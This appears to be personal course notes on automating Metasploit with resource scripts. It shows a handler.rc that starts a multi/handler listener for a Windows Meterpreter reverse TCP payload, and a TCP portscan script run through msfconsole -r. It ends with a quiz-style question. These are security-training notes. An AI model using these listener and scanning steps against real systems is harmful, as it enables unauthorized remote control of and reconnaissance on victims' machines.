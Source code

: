 # Automating Metasploit with Resourse Script

resouse scrript more close to bash script
run the script all the cmd will run sequenctially

## DEMO
collection of resource script 
> ls -al /usr/share/metasploit-framework/scripts/resource

extection - ** .rc **

> vim handler.rc
### inside script 
```bash
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost <ip>
set lport <port>
run
```
### how to run scrupt
> msfconsole -r handler.rc


portscan eg:
	use auxiliary/scanner/portscan/tcp
	set RHOSTS <ip>
	run	
> msfconsole -r portscan.rc

Which one of the following Msfconsole commands can be used to load a resource script?:
	> resource ~/Desktop/handler.rc

